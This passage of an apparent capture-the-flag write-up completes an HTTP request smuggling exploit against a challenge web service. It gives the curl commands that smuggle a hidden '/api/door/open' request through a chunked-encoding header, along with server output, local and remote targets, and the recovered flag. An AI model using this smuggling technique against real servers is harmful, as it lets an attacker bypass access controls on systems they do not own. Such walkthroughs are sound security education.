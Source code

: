 Awesome! That is exactly what we wanted to achieve! The frontend server sends a *chunked* request to the backend, which the backend interpretes as two separate requests from the frontend.

- One request to `/api/status` without a body, yielding a 501 error.
- The other request to `/api/door/open` with `door_id=17` with a status code 200.

Now let's see if the door is open.

```console                                                                                                             
$ curl -X POST --cookie "uid=7ba2909d5bc841ccb4c18dcbc3759f06" -d "door_id=17" --proxy "127.0.0.1:8080" http://172.16.239.137:5000/api/status                                                                          
unlocked CS{dummy} for uid 7ba2909d5bc841ccb4c18dcbc3759f06 
```

Yes, it is!

## Now it's Flag Time!

Let's smuggle the same request to the remote frontend web service.

```console
$ curl -X POST -H 'X-Backend-Info: {"Transfer-Encoding": "chunked"}' --cookie "uid=7ba2909d5bc841ccb4c18dcbc3759f06" --data-binary @smuggled_request.txt --proxy "127.0.0.1:8080" http://116.202.83.208:50005/api/status
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>501 Not Implemented</title>
<h1>Not Implemented</h1>
<p>The server does not support the action requested by the browser.</p>
                                                                                                             
$ curl -X POST --cookie "uid=7ba2909d5bc841ccb4c18dcbc3759f06" -d "door_id=17" --proxy "127.0.0.1:8080" http://116.202.83.208:50005/api/status
unlocked CS{th3r3_1s_n0_w4y} for uid 7ba2909d5bc841ccb4c18dcbc3759f06 
```

Flag: **CS{th3r3_1s_n0_w4y}**
